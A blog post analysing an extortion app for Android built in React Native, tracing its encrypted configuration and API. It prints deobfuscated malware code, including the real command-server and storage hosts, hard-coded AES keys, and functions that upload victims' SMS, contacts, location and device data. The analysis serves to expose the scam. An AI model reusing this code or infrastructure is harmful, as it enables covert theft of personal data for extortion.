


> This article was translated by GPT 5.5.

## Preface

> The cause was that someone in the neighboring group stayed up late and got muddle-headed, downloaded an app, granted it a bunch of permissions, and then got extorted.
> After that, they sent the APK to the group and everyone tried cracking it. This is a brief record of my whole analysis process.

First, after getting the APK, I ran it through apktool in one go. Then I found that the inside of `lib` looked like this:  



I judged that it was written in React Native, then went to `assets` to look for the main program file `index.android.bundle`, but on Windows there was a problem:



However, in an Ubuntu environment, directly using `unzip` gives the correct file. You can see that `index.android.bundle` is compressed JS code, similar to a `webpack` bundle,
but still not quite the same. Next, unminify the compressed JS code. You can use Chrome DevTool or [Unminify](https://unminify.com/) to unminify it,
and obtain the corresponding program.

Because there was a lot of code and it was obfuscated, I first tried starting from the pile of domains obtained through packet capture. Luckily, I found an entry point.
```javascript
__d(function(s, n, o, p, a, t, e) {
    a.exports = {
        name: "rnapp",
        displayName: "rnapp",
        lang: "zh",
        account: "yzvip",
        view: 1,
        hosts: ["https://yz.wuhengde0515sntb02uz.pro"],
        pool: "https://rnoss-sso.oss-accelerate.aliyuncs.com"
    }
}, 459, []);
```

Then I followed `pool` to search further and found a suspicious section of code.

{}

```javascript
    function c() {
        return (c = (0,
        t.default)(function*() {
            if (0 != (yield o(r(d[6]).hosts))) {
                var t = r(d[6]).pool + '/' + (0,
                r(d[5]).MD5)(r(d[6]).account).toString()
                  , n = yield(0,
                l.default)(t, {
                    method: 'GET',
                    retry: 3,
                    retryDelay: 1e3,
                    external: !0,
                    headers: {
                        'Cache-Control': 'no-cache'
                    }
                }, !1);
                if ('error' != n) {
                    var f = u.default.aesDecrypt(n, 'jkqmtd64aPgAiYll');
                    if (f)
                        o(JSON.parse(f))
                }
            }
        })).apply(this, arguments)
    }
```

{}
First, there are several points inside:
+ `d[6]` should represent module 459
+ Judging from the name, `u.default.aesDecrypt` is AES decryption, so we need to further check whether anything has been changed in the algorithm

Next, search for `aesDecrypt`, and the following part appears:

{}

```javascript
__d(function(g, r, i, a, m, e, d) {
    Object.defineProperty(e, "__esModule", {
        value: !0
    }),
    e.default = void 0;
    var t = r(d[0])(r(d[1]))
      , n = r(d[0])(r(d[2]))
      , c = '6301386859816930'
      , u = (function() {
        function u() {
            (0,
            t.default)(this, u)
        }
        return (0,
        n.default)(u, null, [{
            key: "md5",
            value: function(t) {
                return r(d[3]).MD5(t).toString()
            }
        }, {
            key: "aesEncrypt",
            value: function(t, n) {
                var u = n
                  , f = r(d[3]).enc.Utf8.parse(t)
                  , o = r(d[3]).enc.Utf8.parse(u)
                  , p = r(d[3]).enc.Utf8.parse(c)
                  , s = r(d[3]).AES.encrypt(f, o, {
                    iv: p,
                    mode: r(d[3]).mode.CBC,
                    padding: r(d[3]).pad.Pkcs7
                }).ciphertext.toString()
                  , l = r(d[3]).enc.Hex.parse(s);
                return r(d[3]).enc.Base64.stringify(l)
            }
        }, {
            key: "aesDecrypt",
            value: function(t, n) {
                var u = n
                  , f = r(d[3]).enc.Utf8.parse(u)
                  , o = r(d[3]).enc.Utf8.parse(c);
                return r(d[3]).AES.decrypt(t, f, {
                    iv: o,
                    mode: r(d[3]).mode.CBC,
                    padding: r(d[3]).pad.Pkcs7
                }).toString(r(d[3]).enc.Latin1)
            }
        }]),
        u
    }
    )();
    e.default = u
}, 660, [3, 7, 8, 661]);
```

{}
You can see that it uses CryptoJS with AES CBC mode encryption. First, sort out the logic and check whether it has modified the CryptoJS library.  
From the code, the first parameter passed in is the ciphertext, the second parameter is the key, and the IV is fixed as `6301386859816930`.

Then verify decryption using the data obtained from packet capture. It successfully decrypts and produces the result.
> I strongly condemn ksqeib. At 1 a.m., after I had sorted out the logic and asked him to send me a captured response value, he sent me a request value instead, and of course I could not decrypt it no matter what.  
> I kept researching until after 3 a.m. and still could not figure it out. It completely broke me. Only the next morning did I realize that this person had sent me the wrong thing.

Now let's look at its API requests. This is also pretty interesting. To prevent people from directly guessing the API purpose through packet capture, it converts all APIs into MD5 values before using them. The specific code is as follows:

{}

```javascript
    e.get = function(n, u) {
        var d = !(arguments.length > 2 && void 0 !== arguments[2]) || arguments[2]
          , f = arguments.length > 3 && void 0 !== arguments[3] ? arguments[3] : 0
          , c = o() + '/api/' + (0,
        r(_d[5]).MD5)(n).toString();
        if (u) {
            u = l(u);
            var h = [];
            Object.keys(u).forEach(function(t) {
                u[t]instanceof Object && null != u[t] ? Object.keys(u[t]).forEach(function(n) {
                    null != u[t][n] && h.push(t + "[" + n + "]=" + u[t][n])
                }) : null != u[t] && h.push(t + "=" + u[t])
            }),
            -1 === c.search(/\?/) ? c += "?" + h.join('&') : c += "&" + h.join('&')
        }
        return (0,
        t.default)(c, {
            method: 'GET'
        }, d, f)
    }
```

{}
From line 5, you can see that it calculates MD5 for all APIs before using them, which is something else. Next, look at how it encrypts the data it sends.
```javascript
    function l(t) {
        var n = {
            data: t,
            timestamp: Date.parse(new Date) / 1e3
        }
          , o = JSON.stringify(n);
        return {
            text: u.default.aesEncrypt(o, 'A1h0DG' + (0,
            r(_d[5]).MD5)(r(_d[4]).account).toString().substring(2, 12))
        }
    }
```
It is also AES encryption. Although this time the key is concatenated, it is not really useful: `account` is right next to the `pool` found above, and they are all hard-coded values.  
Looking more carefully, you can also find that it fetches an encrypted string from Aliyun OSS, which contains all backend server domains. It is mostly the same idea, with hard-coded keys, so I will not go into too much detail here.  
By observing the APIs, you can see the real purpose of this program.

{}

```javascript
    function p() {
        return (p = (0,
        t.default)(function*(t) {
            return n.post('user/updateLocation', t, !1)
        })).apply(this, arguments)
    }
    function l() {
        return (l = (0,
        t.default)(function*(t) {
            return n.post('submit/device', t, !1, null, 3, 2e3)
        })).apply(this, arguments)
    }
    function f() {
        return (f = (0,
        t.default)(function*(t) {
            return n.post('submit/sms', t, !1, null, 3, 2e3)
        })).apply(this, arguments)
    }
    function c() {
        return (c = (0,
        t.default)(function*(t) {
            return n.post('submit/contacts', t, !1, null, 3, 2e3)
        })).apply(this, arguments)
    }
```

{}
In essence, it steals contacts, SMS messages, location, and device information, and it also uploads album photos.  
It is a pretty old scam. The shell here is an adult app, but there is not even a single video inside it. Emmm, I will not comment further.
